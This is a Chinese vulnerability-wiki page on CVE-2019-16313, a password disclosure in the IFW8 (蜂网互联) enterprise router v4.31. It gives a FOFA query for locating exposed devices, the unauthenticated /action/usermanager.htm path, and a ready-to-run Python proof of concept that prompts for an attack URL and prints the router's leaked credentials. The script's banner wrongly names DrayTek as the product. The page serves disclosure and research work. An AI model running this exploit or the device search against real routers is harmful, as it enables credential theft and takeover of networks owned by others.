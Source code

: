 # 蜂网互联-企业级路由器v4.31-密码泄露漏洞-CVE-2019-16313

## 漏洞描述

蜂网互联企业级路由器v4.31存在接口未授权访问，导致攻击者可以是通过此漏洞得到路由器账号密码接管路由器

## 漏洞影响

> [!NOTE]
>
> 蜂网互联企业级路由器v4.31

## FOFA

> [!NOTE]
>
> app="蜂网互联-互联企业级路由器" 

## 漏洞复现

![](蜂网互联-企业级路由器v4.31-密码泄露漏洞-CVE-2019-16313.assets/1627363628118264.jpg)

登录页面登录后可以看到，账号密码存在接口访问

![](蜂网互联-企业级路由器v4.31-密码泄露漏洞-CVE-2019-16313.assets/1627363628471779.jpg)

而 **/action/usermanager.htm** 存在未授权访问，可通过直接访问获得账号密码

![](蜂网互联-企业级路由器v4.31-密码泄露漏洞-CVE-2019-16313.assets/1627363628654921.jpg)

> [!NOTE]
>
> 不存在漏洞时  state值为 3

##  漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/action/usermanager.htm"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/action/usermanager.htm \033[0m".format(target_url))
        if "pwd" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)
        sys.exit(0)



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](蜂网互联-企业级路由器v4.31-密码泄露漏洞-CVE-2019-16313.assets/16273636288826828.jpg)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> IFW8_Enterprise_router_Password_leakage_

![](蜂网互联-企业级路由器v4.31-密码泄露漏洞-CVE-2019-16313.assets/16273636292552671.jpg)